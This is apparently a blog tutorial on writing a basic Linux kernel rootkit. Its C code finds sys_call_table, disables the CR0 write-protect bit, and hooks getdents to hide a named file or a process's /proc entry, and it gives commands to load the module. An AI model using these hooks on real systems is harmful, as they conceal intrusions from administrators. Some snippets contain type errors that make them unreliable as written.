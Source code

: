 ```yaml
---
layout: post
title: "Linux Kernel Rootkit Basics"
author: "Grant"
tags: [hypervisor, stack-smashing, buffer overflow, security, kernel, linux]
---
```


# Rootkits
<hr>

Rootkits are an advanced form of malware that leverage elevated privileges to hide themselves from the operating system. In this post we will go over how to write a basic rootkit that is capable of hiding files and processes on Linux.

# Listing files in a directory

Let's look at a simple C program that can list files in a directory.

```c
#include <stdio.h>
#include <dirent.h>

int main() {
	DIR *d = opendir(".");
	struct dirent *dire;
	while ((dire = readdir(d)) != NULL) {
		printf("%s\n", dire->d_name);
	}
	closedir(d);
}
```

We can see that the `readdir()` function is called to get the files in a folder, however we're interested in going as low-level as possible to see what we need to hook in the kernel to manipulate the listed files for all programs. A good way of doing this is to use the `strace` tool to log all of the syscalls a program invokes.


`strace ./a.out`

```bash
munmap(0x7fa11faa0000, 133984)          = 0
openat(AT_FDCWD, ".", O_RDONLY|O_NONBLOCK|O_CLOEXEC|O_DIRECTORY) = 3
fstat(3, {st_mode=S_IFDIR|S_ISVTX|0777, st_size=12288, ...}) = 0
brk(NULL)                               = 0x55ce40037000
brk(0x55ce40058000)                     = 0x55ce40058000
getdents(3, /* 28 entries */, 32768)    = 1376
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 4), ...}) = 0
write(1, ".\n", 2.)                      = 2
write(1, "..\n", 3..)                     = 3
```

Several syscalls are invoked by our program and right before we start seeing some recognized files printed out (".", ".."), `getdents()` is called. This is the syscall
that is used to get directory entries on Linux and therefore is what we want to hook to hide files.

# Hooking Syscalls
<hr>

## Syscall Table
In Linux, there is an [array in the kernel that contains pointers to all of the syscalls.](https://elixir.bootlin.com/linux/v5.5.7/source/arch/x86/entry/syscall_64.c#L27)

`asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1]`

The index into this array corresponds to the syscall number which you can [look up here](https://syscalls.kernelgrok.com/). Because of this, it is quite easy to hook a syscall function as we simply need to replace the function pointer for that syscall number to point to a function we define.

```c
// Pointer to sys_call_table in memory
static unsigned long *syscall_table = (unsigned long *)0xdeadbeef;
syscall_table[__NR_getdents] = hooked_getdents;
```

## Modifying Syscall Table

Since the memory region of the kernel containing the `sys_call_table` pointer is marked read-only, we can't modify it (even as ring 0) without first changing the permissions. To do this, we have to toggle the [WP bit (bit 16) in the CR0 register](https://en.wikipedia.org/wiki/Control_register#CR0).

```c
write_cr0(read_cr0() & (~ 0x10000)); //Enable write access
write_cr0(read_cr0() | 0x10000); //Restore write protection
```

## Getting The Address 

Finally, we need to get the address of the `sys_call_table` array inside the kernel. There are numerous ways to do this, but we will use a simple one below.

The `/proc/kallsyms` file contains a mapping of kernel symbols to addresses and thankfully includes the `sys_call_table` symbol we are interested in. We can see that in our instance,
it is located at `0xffffffff9fe00240`.

 **Note**: this will change across systems and even reboots as the kernel memory map is randomized for security reasons.

```bash
vagrant@ubuntu-bionic:~$ sudo cat /proc/kallsyms  | grep sys_call_table
ffffffff9fe00240 R sys_call_table
ffffffff9fe01600 R ia32_sys_call_table
```

Another, and perhaps easier way, is to use the `kallsyms_lookup_name()` function which returns a pointer to the symbol passed as a parameter. We can find the address of `sys_call_table` with the following code:

```c
unsigned long table = (unsigned long *) kallsyms_lookup_name("sys_call_table");
```

## Putting it all together

Combining the steps above, in order to hook a syscall the steps will be roughly as follows:

1. Get the address of the `sys_call_table` pointer
2. Allow write access to kernel memory
3. Hook syscall function
4. Restore write protection to kernel memory


# Hiding Files
<hr>

As we saw above, the `getdents()` and `getdents64()` syscalls are used to get the the files in a directory, so we will want to hook these to hide files.

```c
unsigned long table = (unsigned long *) kallsyms_lookup_name("sys_call_table"); //Lookup table entry point
write_cr0(read_cr0() & (~ 0x10000)); //Enable write access
original_getdents = (void*)table[__NR_getdents];
original_getdents64 = (void*)table[__NR_getdents64];

table[__NR_getdents] = (unsigned long) my_getdents; //Hook getdents with our function
table[__NR_getdents64] = (unsigned long) my_getdents64;
write_cr0(read_cr0() | 0x10000); //Restore write protection
```

Now we will define our own function that implements `getdents()` and hides the file `secret.txt` by removing it from the list of files.

```c
asmlinkage int my_getdents(unsigned int fd, struct linux_dirent* dirp, 
	unsigned int count)
{
  int ret;
  struct linux_dirent* cur = dirp;
  int pos = 0;

  // Call original getdents
  ret = original_getdents(fd, dirp, count); 
  while (pos < ret) {

    if (is_prefix(cur->d_name, "secret.txt")) { // Insert your check here
      // Remove hidden file from list
      int reclen = cur->d_reclen;
      char* next_rec = (char*)cur + reclen;
      int len = (int)dirp + ret - (int)next_rec;
      memmove(cur, next_rec, len);
      ret -= reclen;
      continue;
    }
    pos += cur->d_reclen;
    cur = (struct linux_dirent*) ((char*)dirp + pos);
  }
  return ret;
}
```

# Hiding Processes
<hr>
On Linux, process information is stored in the `/proc/{pid}` folder and tools like `ps` read these entries to report on what processes are running. Since we already know how to hide files, all we need to do is hide the file that is the entry inside the `/proc` folder and it will not show up when `ps` is called!

The quickest way to do this is substitute the filename check from above with the PID:

```c
if (is_prefix(cur->d_name, "5048")) { // Insert your PID here
      // Remove hidden file from list
      int reclen = cur->d_reclen;
      char* next_rec = (char*)cur + reclen;
      int len = (int)dirp + ret - (int)next_rec;
      memmove(cur, next_rec, len);
      ret -= reclen;
      continue;
}
```

However this might hide some other files unintentionally, so it might be wise to check the full path.
# Demo
<hr>
Try it yourself!

```bash
vagrant init gfoudree/rootkit-dev --box-version 1
vagrant up
vagrant ssh
```

Now build and install the kernel module:

```bash
make
sudo insmod file_hider.ko
```

You should now notice that `secret.txt` is missing from the files in the current directory. Remove the kernel module `sudo rmmod file_hider` and observe that it appears again.